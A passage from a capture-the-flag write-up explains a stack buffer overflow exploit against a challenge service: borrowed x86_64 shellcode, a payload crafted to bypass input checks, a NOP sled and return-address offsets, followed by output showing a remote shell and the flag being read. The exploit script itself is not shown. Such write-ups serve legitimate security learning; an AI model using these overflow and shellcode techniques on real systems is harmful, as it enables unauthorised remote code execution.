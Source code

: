 `shellcode` is just the first x86_64 Linux shell code I stumbled on from
[http://shell-storm.org](http://shell-storm.org) padded to be a multiple of 8
bytes (stack aligned).

The `payload` starts with an even number of `A`s followed by NULLs to fool
`hex_to_binary` and `char_to_repr` while keeping the total length to 8 (stack
aligned).

Appended to the `payload` is a NOP sled that will put the end of our shellcode
16 bytes from the return address to avoid getting popped off just before
return (see analysis).  The `0x78 - 8 - 16` is from the analysis above (`0x78`
bytes from return address `- 8` for the `hex_to_binary` bypass, followed by `-
16` for the 16 bytes to be avoided before the return address).

Appended next is the actual `shellcode`, then 16 bytes of anything really,
then the new return address (`stack`).

That's it.

Output:

```bash  
# ./exploit.py  
[+] Opening connection to chal.cybersecurityrumble.de on port 1990: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)  
$ ls -l  
total 52  
lrwxrwxrwx   1 root root    7 Oct  8 01:31 bin -> usr/bin  
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot  
drwxr-xr-x   5 root root  340 Oct 30 18:36 dev  
drwxr-xr-x   1 root root 4096 Oct 30 18:36 etc  
-rw-r--r--   1 root root   45 Oct 30 16:07 flag.txt  
drwxr-xr-x   1 root root 4096 Oct 30 18:36 home  
lrwxrwxrwx   1 root root    7 Oct  8 01:31 lib -> usr/lib  
lrwxrwxrwx   1 root root    9 Oct  8 01:31 lib32 -> usr/lib32  
lrwxrwxrwx   1 root root    9 Oct  8 01:31 lib64 -> usr/lib64  
lrwxrwxrwx   1 root root   10 Oct  8 01:31 libx32 -> usr/libx32  
drwxr-xr-x   2 root root 4096 Oct  8 01:31 media  
drwxr-xr-x   2 root root 4096 Oct  8 01:31 mnt  
drwxr-xr-x   2 root root 4096 Oct  8 01:31 opt  
dr-xr-xr-x 310 root root    0 Oct 30 18:36 proc  
drwx------   2 root root 4096 Oct  8 01:34 root  
drwxr-xr-x   1 root root 4096 Oct 23 17:32 run  
lrwxrwxrwx   1 root root    8 Oct  8 01:31 sbin -> usr/sbin  
drwxr-xr-x   2 root root 4096 Oct  8 01:31 srv  
dr-xr-xr-x  13 root root    0 Oct 30 23:13 sys  
drwxrwxrwt   1 root root 4096 Oct 30 18:35 tmp  
drwxr-xr-x   1 root root 4096 Oct  8 01:31 usr  
drwxr-xr-x   1 root root 4096 Oct  8 01:34 var  
$ cat flag.txt  
CSR{back-in-1990-life-must-have-been-easier}  
```
